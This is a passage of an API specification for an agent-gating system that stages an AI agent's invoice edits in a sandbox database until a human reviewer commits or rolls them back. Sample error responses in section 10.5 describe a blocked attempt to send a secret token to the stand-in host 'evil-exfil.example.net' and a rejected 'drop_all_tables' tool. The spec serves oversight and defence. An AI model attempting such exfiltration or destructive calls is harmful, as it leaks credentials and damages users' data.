| none | update / delete / insert | `UPDATE` (`before` = current row, `baseline_version` = current `version`) / `DELETE` / `INSERT` |
| `UPDATE` | update | `UPDATE`, original `before` and `baseline_version`, new `after`; recompute `changed_fields`; if net `after` equals `before` on all non-system fields, **remove** the record |
| `UPDATE` | delete | `DELETE` with the original baseline `before` |
| `INSERT` | update | `INSERT` with new `after` |
| `INSERT` | delete | Remove the record |
| `DELETE` | insert same ID | `UPDATE` (original `before`, new `after`, original `baseline_version`) |

`tools.json` defines no insert tool, so agents cannot produce `INSERT` records today; the schema and commit engine still support them. `update_invoice` increments `version` and sets `updated_at` in the speculative DB; an update whose values all equal the current values is a successful no-op (`mutations_recorded: 0`, no record).

### 7.3 Derived summary fields
Recomputed on every manifest write:
- `mutation_counts` = lengths of the three arrays; `total` = their sum.
- `risk_summary.total_mutations` = `mutation_counts.total`; `affected_percentage` per section 5.3.
- `violation_count` / `block_count` / `require_approval_count` = recorded violations in total / with `BLOCK` / with `REQUIRE_APPROVAL` (any scope).
- `staged_webhook_count` = webhooks with status `STAGED` (`BLOCKED` excluded).
- `overall_risk_level` = highest `severity` among recorded violations, `LOW` if none. It is informational and does not change `gate_decision`.
- `summary_text` = backend-generated sentence, display only.
Before `/complete`, only tool-stage violations exist and mutation `policy_decision` is `PENDING`.

### 7.4 Bulk operations (hundreds of mutations)
- A bulk call executes in **one speculative-DB transaction**: every row change is applied and recorded, or none.
- Consistency rule between the two stores: apply the change in the speculative DB (transaction still open) → write the updated manifest to the metadata DB and commit it → commit the speculative transaction. If the manifest write fails, roll back the speculative transaction; if the final speculative commit fails, write the previous manifest back and return `500 DATABASE_FAILURE`.
- All 420 records are returned in full by `GET /api/sessions/{session_id}` and `/complete` (≈ 0.4 MB; no pagination in the MVP), ordered by `entity_id`. A complete example is `examples/manifest.dangerous-completed.json`.
- A session cannot exceed 500 net mutations with the current toolset (500 baseline invoices, no insert tool).

### 7.5 Staged webhooks
`stage_webhook` is not an invoice mutation: no mutation record, `mutations_recorded: 0`. Allowed → `staged_webhooks` entry `STAGED` (recorded intent only; stays `STAGED` after commit; **never dispatched**). Blocked → entry `BLOCKED` with redacted payload plus violations; nothing sent.

---

## 8. Commit, Recovery & Rollback Protocols

### 8.1 Commit (exact behavior)
**Preconditions** (no production write yet), in order: reviewer bearer authenticated → body valid → session exists → ledger reconciliation for this session (section 8.2) → not finalized (`SESSION_ALREADY_FINALIZED`) → `execution_status == COMPLETED` (`INVALID_SESSION_STATE`) → `gate_decision != BLOCK` (`403 POLICY_BLOCK`) → `human_review_status == PENDING`.

Then, under the process-wide lock, on a fresh connection to `airlock_prod.db` opened with `isolation_level=None`, `PRAGMA busy_timeout=5000`, `PRAGMA synchronous=FULL`, `PRAGMA foreign_keys=ON`:

1. **Start the production write transaction with `BEGIN IMMEDIATE`.** A lock failure → `500 DATABASE_FAILURE`; nothing changed.
2. **Ledger guard:** `SELECT` the receipt for this `session_id`. If one exists, `ROLLBACK`, reconcile (8.2) and return `409 SESSION_ALREADY_FINALIZED`.
3. **Load the session's mutation records from the manifest** (the only source of changes; never read the speculative DB). The manifest is immutable once `COMPLETED`.
4. **Validate every mutation before applying any** (table 8.3). Read affected rows in chunks of ≤ 400 ids. **Collect all conflicts; do not stop at the first.**
5. **Any conflict →** `ROLLBACK`, record a `FAILED` `finalization_result` (full `conflict_details`, `applied_counts` all zero) in metadata, return `409 COMMIT_CONFLICT`. **Nothing was applied; no receipt exists.**
6. **Apply all mutations** in one deterministic order (deletes, updates, inserts; each by `entity_id` ascending) with guarded statements that require `rowcount == 1`:
   - `DELETE FROM invoices WHERE id = ? AND version = ?`
   - `UPDATE invoices SET <every non-id column from after> WHERE id = ? AND version = ?`
   - `INSERT INTO invoices (...) VALUES (...)`
   After commit each updated/inserted production row equals the recorded `after` exactly.
7. **Insert the commit-ledger receipt** (`ledger_id` UUID v4, `session_id`, `committed_at`, reviewer, reason, gate decision, baseline count, applied counts, `mutation_digest`) **in the same SQLite transaction as the mutations.**
8. **`COMMIT`** — one atomic commit that makes the mutations and the receipt durable together.
9. **Any exception, constraint violation or `rowcount != 1` in steps 2–8 → `ROLLBACK` the entire transaction**, leave the session `COMPLETED` / review `PENDING`, return `500 DATABASE_FAILURE`. Production and ledger are unchanged. **Never partially commit.**
10. After the production `COMMIT`: update the manifest in metadata (`COMMITTED`, `APPROVED`, `finalized_at`, `finalization_result` `{COMMIT, SUCCESS, applied_counts, ledger_id, recovered: false}`), then delete the speculative DB file (best-effort; failure is logged and does not undo the commit). If the metadata update fails after step 8, return `500 DATABASE_FAILURE` with `details {commit_durable: true, ledger_id}`; the commit is real and reconciliation (8.2) finalizes the session.

**Never replace the production database with a speculative database file.** Also never: overwrite, copy over or swap `airlock_prod.db` with any other database file; write to production outside this transaction (other than demo reset); apply a subset of mutations; skip validation because the gate is `ALLOW`; commit without a reviewer bearer token.

### 8.2 Commit recovery (reconciliation)
Crash windows: (a) before step 8's `COMMIT` — SQLite rolls the incomplete transaction back on next open: production unchanged, no receipt, session still `COMPLETED`, commit may be retried. (b) after step 8, before step 10 — production and receipt are durable but the session is still `COMPLETED` in metadata. Reconciliation repairs (b) **without replaying the mutations**.

`reconcile_session(session_id)` for a session whose metadata says `COMPLETED`:
1. Read the receipt for the session from `airlock_commit_ledger` (read-only connection).
2. No receipt → nothing to do.
3. Receipt found → in one metadata transaction set the manifest to `execution_status: COMMITTED`, `human_review_status: APPROVED`, `finalized_at` = receipt `committed_at`, `updated_at` = now, `finalization_result` `{action: COMMIT, status: SUCCESS, actor: receipt reviewer, reason: receipt reason, timestamp: receipt committed_at, applied_counts: from the receipt, conflict_details: null, ledger_id: receipt ledger_id, recovered: true}`; then delete the speculative DB file. **Production invoices are not touched and no mutation is replayed.**
4. Recompute the digest from the manifest's mutation records and compare with `mutation_digest`. A mismatch is logged at CRITICAL severity; the session is still finalized from the receipt, because production is authoritative about what happened.

When it runs:
- **MUST** at startup for all sessions with `execution_status = COMPLETED`, before the server accepts requests.
- **MUST** at the start of `commit` and `rollback` (so a session whose commit actually succeeded can neither be committed again nor rolled back; either call then returns `409 SESSION_ALREADY_FINALIZED`).
- **SHOULD** when serving `GET /api/sessions/{session_id}` and `GET /api/sessions` for `COMPLETED` sessions, so the dashboard heals without a restart.
Orphans (a receipt without a metadata row, or a receipt for a `ROLLED_BACK`/`ACTIVE` session) are logged at CRITICAL severity and never acted on automatically.

### 8.3 Validation of each mutation type
"Row" is the current production row with the same `id`. Full-row equality compares every column of `invoice.schema.json`.

| Type | Valid only if | Otherwise `conflict_type` | `expected_version` / `actual_version` |
|---|---|---|---|
| `UPDATE` | row exists **and** `row.version == baseline_version` **and** row equals `before` | row absent → `MISSING`; version or content differs → `MODIFIED` | `baseline_version` / row version or `null` |
| `DELETE` | same as `UPDATE` | same | same |
| `INSERT` | **no** row with that `id` exists **and** `after` validates against `invoice.schema.json` | row present → `UNEXPECTED_EXISTING` | `null` / row version |

- The content comparison also catches out-of-band edits that did not bump `version`.
- Production rows added after the clone are ignored unless they collide with an `INSERT`; they are never deleted by the session.
- Conflicts are ordered by `entity_id` ascending.

### 8.4 Rollback
Allowed for `ACTIVE` or `COMPLETED` sessions of any `gate_decision`. Under the lock: reviewer bearer authenticated → reconcile (8.2) → not finalized (`409 SESSION_ALREADY_FINALIZED`) → delete the speculative DB file and its `-wal`/`-shm`/`-journal` companions (missing file is fine; an I/O error → `500 DATABASE_FAILURE`, state unchanged) → persist `ROLLED_BACK`, `REJECTED`, `finalized_at`, `finalization_result` `{ROLLBACK, SUCCESS, applied_counts zero, ledger_id: null, recovered: false}`. Mutation records, violations and webhook entries are **retained** for audit. Rollback never opens production for writing, so production content is identical before and after.

---

## 9. Standard Error Contract

All non-2xx responses (except the Host-header rejection, section 3.4) conform to `error.schema.json`. `request_id` is a UUID v4. Error `message` and `details` never contain secrets, tokens or raw request content.

<!-- schema: error.schema.json; details: api.schema.json#/$defs/PolicyBlockCommitDetails -->
```json
{
  "error": {
    "code": "POLICY_BLOCK",
    "message": "Session cannot be committed because gate_decision is BLOCK.",
    "http_status": 403,
    "details": {
      "gate_decision": "BLOCK",
      "blocking_policy_ids": ["POL-003", "POL-004"]
    },
    "request_id": "f5a9c3e7-2b8d-4f16-a47c-9e1d3b5a7c09",
    "timestamp": "2026-11-24T12:02:20Z"
  }
}
```

### Canonical Error Codes

| Error Code | HTTP | When Returned |
|---|---|---|
| `INVALID_SESSION` | `404` | Well-formed `session_id` does not exist. |
| `INVALID_TOOL` | `400` | `tool_name` not in the `tools.json` allowlist (tool-level `BLOCK`, `POL-005`; session not blocked). |
| `INVALID_ARGUMENTS` | `422` | Body, query, path, content type, size or tool `arguments` fail validation; malformed UUIDs; `details.reason` is `SCHEMA_VALIDATION`, `SECRET_IN_ARGUMENT` or `MALFORMED_REQUEST`. |
| `INVOICE_NOT_FOUND` | `404` | A tool referenced an invoice ID that does not exist in the session's speculative database. For `bulk_delete_invoices` the whole call fails and nothing is deleted. |
| `UNAUTHORIZED_AGENT` | `401` | Missing/invalid agent bearer token on an agent-only endpoint (including a reviewer token). |
| `UNAUTHORIZED_REVIEWER` | `401` | Missing/invalid reviewer bearer token on a reviewer-only or local-demo-only endpoint (including an agent token). |
| `INVALID_SESSION_STATE` | `409` | Action illegal in the current non-terminal state (execute/complete after `COMPLETED`, commit while `ACTIVE`). |
| `POLICY_BLOCK` | `403` | A tool call violated a `BLOCK` policy; a mutating tool was called after the session gate became `BLOCK` (`details.reason = SESSION_BLOCKED`); or commit was attempted on a `BLOCK` session. |
| `COMMIT_CONFLICT` | `409` | Section 8.3 validation found conflicts; nothing applied. |
| `DATABASE_FAILURE` | `500` | SQLite I/O, locking or transaction error; speculative-file deletion failure on rollback; metadata failure after a durable commit (`details.commit_durable`). |
| `SESSION_ALREADY_FINALIZED` | `409` | Any lifecycle call on a `COMMITTED` or `ROLLED_BACK` session, including one finalized by reconciliation. |
| `FORBIDDEN` | `403` | Missing/disallowed `Origin` header on `commit`, `rollback`, or `reset` (3.5), or local-demo-only guard failed (`AIRLOCK_DEMO_MODE` is not `true`, or the client is not loopback). |
| `INTERNAL_ERROR` | `500` | Unhandled non-database exception. Never leak stack traces. |

**Check order** (consistent across endpoints): `TrustedHostMiddleware` (`Host` allowlist) → local-demo guards (reset only, `403 FORBIDDEN`) → `Origin` allowlist (`commit`, `rollback`, `reset`, `403 FORBIDDEN`) → bearer authentication (`401`) → request shape (`422`) → session exists (`404`) → reconciliation (commit/rollback) → finalized (`409 SESSION_ALREADY_FINALIZED`) → state (`409 INVALID_SESSION_STATE`) → endpoint-specific checks → execution (`500` on failure).

---

## 10. REST API Endpoint Specifications

Common: JSON in and out; UTC timestamps; errors per section 9. "Manifest" means `manifest.schema.json`.

### 10.1 `GET /api/health`
- **Purpose**: Liveness/readiness of the backend, production DB, metadata DB and loaded contracts.
- **Operation class**: local-read.
- **Authentication**: None.
- **Request headers**: None required.
- **Request JSON**: None.
- **Response JSON (`200 OK`)** — `active_sessions` counts sessions whose `execution_status` is `ACTIVE`:

  <!-- schema: api.schema.json#/$defs/HealthResponse -->
  ```json
  {
    "status": "ok",
    "prod_db_connected": true,
    "meta_db_connected": true,
    "prod_invoice_count": 500,
    "active_sessions": 1,
    "contracts_loaded": true,
    "timestamp": "2026-11-24T12:00:00Z"
  }
  ```
- **Status codes**: `200`, `500`.
- **Error codes**: `DATABASE_FAILURE`, `INTERNAL_ERROR`.
- **Validation rules**: None.
- **Expected behavior**: Read-only. If either database is unreachable or a contract file failed to load, return `500` (the booleans are therefore always `true` in a 200).

### 10.2 `POST /api/sessions`
- **Purpose**: Create an isolated session: snapshot production into a speculative DB and initialize the manifest.
- **Operation class**: agent-only.
- **Authentication**: `Authorization: Bearer <AIRLOCK_AGENT_TOKEN>`.
- **Request headers**: `Authorization`, `Content-Type: application/json`.
- **Request JSON**: `agent_name` (required, 1–120 chars, not blank), `task_description` (optional string or null, ≤ 500):

  <!-- schema: api.schema.json#/$defs/CreateSessionRequest -->
  ```json
  {
    "agent_name": "nemotron-billing-agent",
    "task_description": "Mark INV-0042 as PAID and stage notification webhook"
  }
  ```
- **Response JSON (`201 Created`)**:

  <!-- schema: api.schema.json#/$defs/CreateSessionResponse -->
  ```json
  {
    "session_id": "b7d4e2c9-1a3f-4b68-8e52-6f9c0d7a3b21",
    "agent_name": "nemotron-billing-agent",
    "task_description": "Mark INV-0042 as PAID and stage notification webhook",
    "execution_status": "ACTIVE",
    "gate_decision": "PENDING",
    "human_review_status": "PENDING",
    "baseline_record_count": 500,
    "created_at": "2026-11-24T12:10:00Z"
  }
  ```
- **Status codes**: `201`, `401`, `422`, `500`.
- **Error codes**: `UNAUTHORIZED_AGENT`, `INVALID_ARGUMENTS`, `DATABASE_FAILURE`, `INTERNAL_ERROR`.
- **Validation rules**: as above; unknown fields rejected; absent `task_description` is stored as `null`; free text is redacted (3.7).
- **Expected behavior**: Generate a UUID v4. Copy `airlock_prod.db` to `{AIRLOCK_SPECULATIVE_DIR}/{session_id}.db` with the online backup API from a read-only connection (consistent snapshot); set `baseline_record_count` from the same snapshot; insert the `sessions` row and initial manifest. If any step fails, delete the partial file and the row; no session exists.

### 10.3 `GET /api/sessions`
- **Purpose**: List sessions for dashboard monitoring.
- **Operation class**: local-read.
- **Authentication**: None.
- **Request headers**: None required.
- **Request JSON / query**: none / optional `execution_status`, `gate_decision` (enums), `limit` (1–200, default `50`).
- **Response JSON (`200 OK`)** — `total` counts sessions matching the filters (before `limit`); order `created_at` descending, ties by `session_id`:

  <!-- schema: api.schema.json#/$defs/SessionListResponse -->
  ```json
  {
    "total": 1,
    "sessions": [
      {
        "session_id": "b7d4e2c9-1a3f-4b68-8e52-6f9c0d7a3b21",
        "agent_name": "nemotron-billing-agent",
        "task_description": "Mark INV-0042 as PAID and stage notification webhook",
        "created_at": "2026-11-24T12:10:00Z",
        "updated_at": "2026-11-24T12:10:50Z",
        "execution_status": "COMPLETED",
        "gate_decision": "ALLOW",
        "human_review_status": "PENDING",
        "mutation_counts": { "inserted": 0, "updated": 1, "deleted": 0, "total": 1 },
        "risk_summary": {
          "overall_risk_level": "LOW",
          "total_mutations": 1,
          "affected_percentage": 0.2,
          "violation_count": 0,
          "block_count": 0,
          "require_approval_count": 0,
          "staged_webhook_count": 1,
          "summary_text": "1 invoice updated (0.2% of baseline), 1 webhook staged, 0 policy violations."
        }
      }
    ]
  }
  ```
- **Status codes**: `200`, `422`, `500`.
- **Error codes**: `INVALID_ARGUMENTS`, `DATABASE_FAILURE`, `INTERNAL_ERROR`.
- **Validation rules**: invalid enum or out-of-range `limit` → `422`.
- **Expected behavior**: Read-only, from the metadata DB. Summaries only (no mutation arrays). SHOULD run reconciliation (8.2) for `COMPLETED` sessions first.

### 10.4 `GET /api/sessions/{session_id}`
- **Purpose**: Retrieve the complete manifest: mutations, staged webhooks, violations, tool history, finalization result.
- **Operation class**: local-read.
- **Authentication**: None.
- **Request headers**: None required.
- **Request JSON**: None.
- **Response JSON (`200 OK`)** — the manifest. Example: the safe demo session after commit (`examples/manifest.safe-committed.json`):

  <!-- fixture: examples/manifest.safe-committed.json -->
  ```json
  {
    "session_id": "b7d4e2c9-1a3f-4b68-8e52-6f9c0d7a3b21",
    "agent_name": "nemotron-billing-agent",
    "task_description": "Mark INV-0042 as PAID and stage notification webhook",
    "agent_summary": "Updated INV-0042 to PAID and staged webhook notification.",
    "created_at": "2026-11-24T12:10:00Z",
    "updated_at": "2026-11-24T12:11:30Z",
    "completed_at": "2026-11-24T12:10:50Z",
    "finalized_at": "2026-11-24T12:11:30Z",
    "execution_status": "COMMITTED",
    "gate_decision": "ALLOW",
    "human_review_status": "APPROVED",
    "baseline_record_count": 500,
    "risk_summary": {
      "overall_risk_level": "LOW",
      "total_mutations": 1,
      "affected_percentage": 0.2,
      "violation_count": 0,
      "block_count": 0,
      "require_approval_count": 0,
      "staged_webhook_count": 1,
      "summary_text": "1 invoice updated (0.2% of baseline), 1 webhook staged, 0 policy violations."
    },
    "mutation_counts": {
      "inserted": 0,
      "updated": 1,
      "deleted": 0,
      "total": 1
    },
    "mutations": {
      "inserted": [],
      "updated": [
        {
          "mutation_id": "8b3f7d1a-5e9c-4a40-9c27-d4e0b6a8f1c3",
          "operation_id": "6e0a4c8f-1d7b-4e92-b3a5-f2c9d1e7b406",
          "tool_name": "update_invoice",
          "entity_type": "invoice",
          "entity_id": "INV-0042",
          "mutation_type": "UPDATE",
          "before": {
            "id": "INV-0042",
            "customer_name": "Contoso Retail",
            "customer_email": "billing@contoso.example.com",
            "amount_cents": 89000,
            "currency": "USD",
            "status": "OVERDUE",
            "due_date": "2026-10-20",
            "notes": null,
            "version": 1,
            "created_at": "2026-09-20T08:00:00Z",
            "updated_at": "2026-09-20T08:00:00Z"
          },
          "after": {
            "id": "INV-0042",
            "customer_name": "Contoso Retail",
            "customer_email": "billing@contoso.example.com",
            "amount_cents": 89000,
            "currency": "USD",
            "status": "PAID",
            "due_date": "2026-10-20",
            "notes": "Wire transfer confirmed",
            "version": 2,
            "created_at": "2026-09-20T08:00:00Z",
            "updated_at": "2026-11-24T12:10:20Z"
          },
          "changed_fields": [
            "status",
            "notes"
          ],
          "baseline_version": 1,
          "timestamp": "2026-11-24T12:10:20Z",
          "policy_decision": "ALLOW"
        }
      ],
      "deleted": []
    },
    "staged_webhooks": [
      {
        "webhook_id": "4c7e1a9d-0f5b-4d23-b68e-a1d5f9c3e072",
        "operation_id": "a2f6d0b4-9c3e-4851-87d1-e5b9c3a1f7d8",
        "url": "https://hooks.airlock.internal/billing-events",
        "event_type": "invoice.updated",
        "payload": {
          "invoice_id": "INV-0042",
          "status": "PAID"
        },
        "staged_at": "2026-11-24T12:10:35Z",
        "status": "STAGED"
      }
    ],
    "policy_violations": [],
    "tool_execution_history": [
      {
        "operation_id": "2d8a6f0c-7b3e-4c15-9e48-b1a7d3f5c902",
        "tool_name": "get_invoice",
        "arguments": {
          "invoice_id": "INV-0042"
        },
        "read_only": true,
        "status": "SUCCESS",
        "tool_decision": "ALLOW",
        "mutations_recorded": 0,
        "error_code": null,
        "executed_at": "2026-11-24T12:10:10Z"
      },
      {
        "operation_id": "6e0a4c8f-1d7b-4e92-b3a5-f2c9d1e7b406",
        "tool_name": "update_invoice",
        "arguments": {
          "invoice_id": "INV-0042",
          "status": "PAID",
          "notes": "Wire transfer confirmed"
        },
        "read_only": false,
        "status": "SUCCESS",
        "tool_decision": "ALLOW",
        "mutations_recorded": 1,
        "error_code": null,
        "executed_at": "2026-11-24T12:10:20Z"
      },
      {
        "operation_id": "a2f6d0b4-9c3e-4851-87d1-e5b9c3a1f7d8",
        "tool_name": "stage_webhook",
        "arguments": {
          "url": "https://hooks.airlock.internal/billing-events",
          "event_type": "invoice.updated",
          "payload": {
            "invoice_id": "INV-0042",
            "status": "PAID"
          }
        },
        "read_only": false,
        "status": "SUCCESS",
        "tool_decision": "ALLOW",
        "mutations_recorded": 0,
        "error_code": null,
        "executed_at": "2026-11-24T12:10:35Z"
      }
    ],
    "finalization_result": {
      "action": "COMMIT",
      "status": "SUCCESS",
      "actor": "alice@airlock.local",
      "reason": "Verified wire transfer for INV-0042.",
      "timestamp": "2026-11-24T12:11:30Z",
      "applied_counts": {
        "inserted": 0,
        "updated": 1,
        "deleted": 0
      },
      "conflict_details": null,
      "ledger_id": "1f4a7c9e-3d2b-4e86-a5c1-9b0d7e3f2a64",
      "recovered": false
    }
  }
  ```
- **Status codes**: `200`, `404`, `422`, `500`.
- **Error codes**: `INVALID_SESSION`, `INVALID_ARGUMENTS`, `DATABASE_FAILURE`, `INTERNAL_ERROR`.
- **Validation rules**: `session_id` must be a UUID v4 (malformed → `422`; well-formed but unknown → `404`).
- **Expected behavior**: Read-only; available in every state, including terminal ones. SHOULD run reconciliation (8.2) when the session is `COMPLETED`. While `ACTIVE`, `completed_at`, `finalized_at` and `finalization_result` are `null`. A manifest recovered by reconciliation shows `finalization_result.recovered: true` (`examples/manifest.safe-recovered.json`).

### 10.5 `POST /api/tools/execute`
- **Purpose**: Execute one allowlisted tool against the session's speculative DB (or stage a webhook), record mutations, run tool-stage policies.
- **Operation class**: agent-only.
- **Authentication**: `Authorization: Bearer <AIRLOCK_AGENT_TOKEN>`.
- **Request headers**: `Authorization`, `Content-Type: application/json`.
- **Request JSON**: `session_id` (UUID), `tool_name` (1–100 chars), `arguments` (object validated against the tool's `parameters` in `tools.json`):

  <!-- schema: api.schema.json#/$defs/ExecuteRequest -->
  ```json
  {
    "session_id": "b7d4e2c9-1a3f-4b68-8e52-6f9c0d7a3b21",
    "tool_name": "update_invoice",
    "arguments": { "invoice_id": "INV-0042", "status": "PAID", "notes": "Wire transfer confirmed" }
  }
  ```
- **Response JSON (`200 OK`)** — `status` is **always** `SUCCESS` on HTTP 200; blocked or failed calls use non-2xx envelopes. `mutations_recorded` = invoice rows changed by this call; `policy_violations` lists non-blocking tool-stage violations (always `[]` with the current policy set):

  <!-- schema: api.schema.json#/$defs/ExecuteSuccessResponse -->
  ```json
  {
    "operation_id": "6e0a4c8f-1d7b-4e92-b3a5-f2c9d1e7b406",
    "session_id": "b7d4e2c9-1a3f-4b68-8e52-6f9c0d7a3b21",
    "tool_name": "update_invoice",
    "status": "SUCCESS",
    "read_only": false,
    "tool_decision": "ALLOW",
    "session_gate_decision": "PENDING",
    "mutations_recorded": 1,
    "policy_violations": [],
    "result": {
      "updated_invoice": {
        "id": "INV-0042",
        "customer_name": "Contoso Retail",
        "customer_email": "billing@contoso.example.com",
        "amount_cents": 89000,
        "currency": "USD",
        "status": "PAID",
        "due_date": "2026-10-20",
        "notes": "Wire transfer confirmed",
        "version": 2,
        "created_at": "2026-09-20T08:00:00Z",
        "updated_at": "2026-11-24T12:10:20Z"
      }
    },
    "executed_at": "2026-11-24T12:10:20Z"
  }
  ```
- **Status codes**: `200`, `400`, `401`, `403`, `404`, `409`, `422`, `500`.
- **Error codes**: `UNAUTHORIZED_AGENT`, `INVALID_ARGUMENTS`, `INVALID_SESSION`, `SESSION_ALREADY_FINALIZED`, `INVALID_SESSION_STATE`, `INVALID_TOOL`, `POLICY_BLOCK`, `INVOICE_NOT_FOUND`, `DATABASE_FAILURE`, `INTERNAL_ERROR`.
- **Validation rules and order**:
  1. Agent bearer (`401 UNAUTHORIZED_AGENT`).
  2. Request shape (`422`).
  3. Session exists (`404 INVALID_SESSION`).
  4. State: `COMMITTED`/`ROLLED_BACK` → `409 SESSION_ALREADY_FINALIZED`; `COMPLETED` → `409 INVALID_SESSION_STATE`. Nothing runs, nothing is recorded.
  5. **Allowlist.** Unknown `tool_name`: record `POL-005` (decision `BLOCK`, `effect_scope TOOL`), append a history entry (`status BLOCKED`, `tool_decision BLOCK`, `error_code INVALID_TOOL`, `read_only null`), return `400 INVALID_TOOL`. **The session gate is unchanged.**
  6. **Session lockout.** If the session gate is `BLOCK` and the tool is mutating (`read_only: false`): history entry `BLOCKED` (`error_code POLICY_BLOCK`), return `403 POLICY_BLOCK` with `details.reason = SESSION_BLOCKED`. Read-only tools continue.
  7. **Arguments** validated strictly against `tools.json` (no type coercion, no extra properties, real calendar dates) → `422` with `details.reason = SCHEMA_VALIDATION` and `details.errors[]`; `update_invoice.notes` containing a secret marker → `422` with `details.reason = SECRET_IN_ARGUMENT`. History entry `ERROR`; gate unchanged; nothing executed.
  8. **Tool-stage policies** (`stage_webhook`: `POL-003`, `POL-004`). On any violation: record every triggered violation, set gate `BLOCK`, add a `staged_webhooks` entry with status `BLOCKED` and redacted payload, history `BLOCKED` (`POLICY_BLOCK`), return `403 POLICY_BLOCK`.
  9. **Execute** against the speculative DB. A missing invoice → `404 INVOICE_NOT_FOUND` (history `ERROR`, nothing applied).
- **Expected behavior** — tool semantics:

  | Tool | Behavior |
  |---|---|
  | `list_invoices` | Read-only. Filters AND-ed; ordered by `id`; `limit` default 50. |
  | `get_invoice` | Read-only. Missing → `404 INVOICE_NOT_FOUND`. |
  | `update_invoice` | Applies supplied fields; increments `version`; sets `updated_at`; merges into the net mutation record (7.2). |
  | `delete_invoice` | Deletes one row; records `DELETE`. Missing → `404 INVOICE_NOT_FOUND`. |
  | `bulk_delete_invoices` | **AND semantics**: when both `invoice_ids` and `status` are supplied, only invoices whose id is in `invoice_ids` **and** whose status matches are deleted. Every explicitly requested ID **must exist**; if any does not, the **entire call fails** with `404 INVOICE_NOT_FOUND` (`details.missing_invoice_ids`, capped at 50, `missing_count` total) and **nothing is deleted or recorded**. Existing IDs that do not match `status` are skipped and returned in `unmatched_invoice_ids`. A status-only call matching zero rows succeeds with 0 mutations. One speculative-DB transaction. |
  | `stage_webhook` | Allowed → `STAGED` entry; `mutations_recorded: 0`; **no HTTP request is made**; `result` has `webhook_id`, `url`, `event_type`, `staged_status`. |

  Malicious webhook → `403` (tool-level `BLOCK`, session gate becomes `BLOCK`):

  <!-- schema: error.schema.json; details: api.schema.json#/$defs/ToolPolicyBlockDetails -->
  ```json
  {
    "error": {
      "code": "POLICY_BLOCK",
      "message": "Tool call blocked by deterministic policy; session gate_decision is now BLOCK. The webhook was not staged or dispatched.",
      "http_status": 403,
      "details": {
        "operation_id": "c4e8f0a2-6d1b-4f37-b95a-1d3e7c9a5f62",
        "tool_name": "stage_webhook",
        "tool_decision": "BLOCK",
        "session_gate_decision": "BLOCK",
        "policy_violations": [
          {
            "policy_id": "POL-003",
            "policy_name": "Secret Exfiltration in Webhook Payload",
            "severity": "CRITICAL",
            "decision": "BLOCK",
            "effect_scope": "SESSION",
            "stage": "TOOL_EXECUTE",
            "operation_id": "c4e8f0a2-6d1b-4f37-b95a-1d3e7c9a5f62",
            "explanation": "Webhook payload contains a configured secret marker at payload.token; value redacted.",
            "affected_record_count": null,
            "timestamp": "2026-11-24T12:01:40Z"
          },
          {
            "policy_id": "POL-004",
            "policy_name": "Unauthorized Webhook Destination",
            "severity": "CRITICAL",
            "decision": "BLOCK",
            "effect_scope": "SESSION",
            "stage": "TOOL_EXECUTE",
            "operation_id": "c4e8f0a2-6d1b-4f37-b95a-1d3e7c9a5f62",
            "explanation": "Webhook destination host evil-exfil.example.net is not in allowed_webhook_domains.",
            "affected_record_count": null,
            "timestamp": "2026-11-24T12:01:40Z"
          }
        ]
      },
      "request_id": "0e6b2d8a-4c1f-4a93-b7d5-3f9a1c5e7b24",
      "timestamp": "2026-11-24T12:01:40Z"
    }
  }
  ```
  Unknown tool → `400` (tool-level `BLOCK`; `session_gate_decision` unchanged):

  <!-- schema: error.schema.json; details: api.schema.json#/$defs/InvalidToolDetails -->
  ```json
  {
    "error": {
      "code": "INVALID_TOOL",
      "message": "Tool 'drop_all_tables' is not in the tools.json allowlist; the call was blocked and not executed.",
      "http_status": 400,
      "details": {
        "operation_id": "fb59fe1c-045c-4898-b989-90b5874ea4ba",
        "tool_name": "drop_all_tables",
        "tool_decision": "BLOCK",
        "session_gate_decision": "PENDING",
        "policy_violations": [
          {
            "policy_id": "POL-005",
            "policy_name": "Unknown Tool Rejection",
            "severity": "CRITICAL",
            "decision": "BLOCK",
            "effect_scope": "TOOL",
            "stage": "TOOL_EXECUTE",
            "operation_id": "fb59fe1c-045c-4898-b989-90b5874ea4ba",
            "explanation": "Tool 'drop_all_tables' is not in the tools.json allowlist.",
            "affected_record_count": null,
            "timestamp": "2026-11-24T12:20:00Z"
          }
        ]
      },
      "request_id": "9fd1e93c-b2fc-49b4-ba51-1c4abf05a495",
      "timestamp": "2026-11-24T12:20:00Z"
    }
  }
  ```
  Mutating call after the session gate became `BLOCK`:

  <!-- schema: error.schema.json; details: api.schema.json#/$defs/SessionBlockedDetails -->
  ```json
  {
    "error": {
      "code": "POLICY_BLOCK",
      "message": "Session gate_decision is BLOCK; mutating tools are rejected. Read-only inspection, /complete and /rollback remain available.",
      "http_status": 403,
      "details": {
        "reason": "SESSION_BLOCKED",
        "operation_id": "0aa92fcb-4ed3-413f-8cd6-34bcad317f5d",
        "tool_name": "update_invoice",
        "tool_decision": "BLOCK",
        "session_gate_decision": "BLOCK",
        "blocking_policy_ids": [
          "POL-003",
          "POL-004"
        ]
      },
      "request_id": "8000e101-c742-4d96-87f1-a62481482514",
      "timestamp": "2026-11-24T12:01:50Z"
    }
  }
  ```
  `bulk_delete_invoices` with a missing requested ID (no partial deletion):

  <!-- schema: error.schema.json; details: api.schema.json#/$defs/InvoiceNotFoundDetails -->
  ```json
  {
    "error": {
      "code": "INVOICE_NOT_FOUND",
      "message": "One or more requested invoice IDs do not exist; no invoices were deleted.",
      "http_status": 404,
      "details": {
        "operation_id": "f79b1a9c-ccd4-4993-9fc4-0b42861e5cdc",
        "missing_count": 1,
        "missing_invoice_ids": [
          "INV-9999"
        ],
        "truncated": false
      },
      "request_id": "afa99e94-48b7-4d9e-ae02-ac18fd29656b",
      "timestamp": "2026-11-24T12:09:45Z"
    }
  }
  ```
  Secret marker in `update_invoice.notes`:

  <!-- schema: error.schema.json; details: api.schema.json#/$defs/InvalidArgumentsDetails -->
  ```json
  {
    "error": {
      "code": "INVALID_ARGUMENTS",
      "message": "Argument validation failed; the call was not executed.",
      "http_status": 422,
      "details": {
        "reason": "SECRET_IN_ARGUMENT",
        "errors": [{ "path": "$.notes", "message": "value contains a configured secret marker (redacted)" }]
      },
      "request_id": "9ed22756-c495-48f2-b2d7-3d0b2fcc9b55",
      "timestamp": "2026-11-24T12:09:00Z"
    }
  }
  ```

### 10.6 `POST /api/sessions/{session_id}/complete`
- **Purpose**: Mark agent execution finished, run session-stage policies, fix the final `gate_decision`.
- **Operation class**: agent-only.
- **Authentication**: `Authorization: Bearer <AIRLOCK_AGENT_TOKEN>`.
- **Request headers**: `Authorization`, `Content-Type: application/json`.
